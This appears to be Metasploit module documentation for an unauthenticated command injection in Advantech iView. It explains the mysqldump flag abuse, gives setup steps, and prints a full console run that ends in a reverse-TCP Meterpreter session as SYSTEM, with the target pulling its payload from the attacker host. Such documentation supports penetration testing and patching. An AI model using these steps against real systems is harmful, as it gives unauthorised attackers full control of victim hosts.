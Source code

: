 ## Vulnerable Application

Versions of Advantech iView software below `5.7.04.6469` are vulnerable to
an unauthenticated command injection vulnerability via the `NetworkServlet` endpoint.
The database backup functionality passes a user-controlled parameter, `backup_file`
to the `mysqldump` command. The sanitization functionality only tests for SQL injection
attempts and directory traversal, so leveraging the `-r` and `-w` `mysqldump` flags
permits exploitation. The command injection vulnerability is used to write a
payload on the target and achieve remote code execution as NT AUTHORITY\SYSTEM.

A vulnerable version can be installed from [here](https://downloadt.advantech.com/download/downloadsr.aspx?File_Id=1-26RVVS9).

Other versions of the software can be found [here](https://www.advantech.tw/support/details/firmware?id=1-HIPU-183).

### Installation Instructions

Distributed with the installer is a PDF containing detailed installation instructions
for the software. Once the installation has finished, you may have issues getting the
Tomcat service to start. If that's the case, follow the steps below (pulled from advantech_iview_unauth_rce.md):

  1. Copy the msvcr100.dll file from C:\Program Files (x86)\Java\jre7\bin to C:\Program Files (x86)\iView\Apache Software Foundation\Tomcat6.0\bin.
  2. Restart the "Apache Tomcat 6" service. 1 At this point, the application should be listening on port 8080 and no additional configuration is necessary.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/advantech_iview_networkservlet_cmd_inject`
4. Do: `set RHOST <ip>`
5. Do: `run`
6. You should get a meterpreter session.

## Options

## Scenarios

### Advantech iView Webserver `v5.7.04.6425` on Windows 10 21H2 x64

```
msf > use exploit/windows/http/advantech_iview_networkservlet_cmd_inject
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/advantech_iview_networkservlet_cmd_inject) > set rhost 192.168.140.197
rhost => 192.168.140.197
msf exploit(windows/http/advantech_iview_networkservlet_cmd_inject) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(windows/http/advantech_iview_networkservlet_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.140.1:8080/QVp4zocvVZ9f
[*] Client 192.168.140.197 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237) requested /QVp4zocvVZ9f
[*] Sending payload to 192.168.140.197 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237)
[*] Sending stage (200774 bytes) to 192.168.140.197
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.197:50152) at 2022-07-21 16:48:57 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of 'webapps\iView3\vQbGQrFe.jsp' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-04M9HG7
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
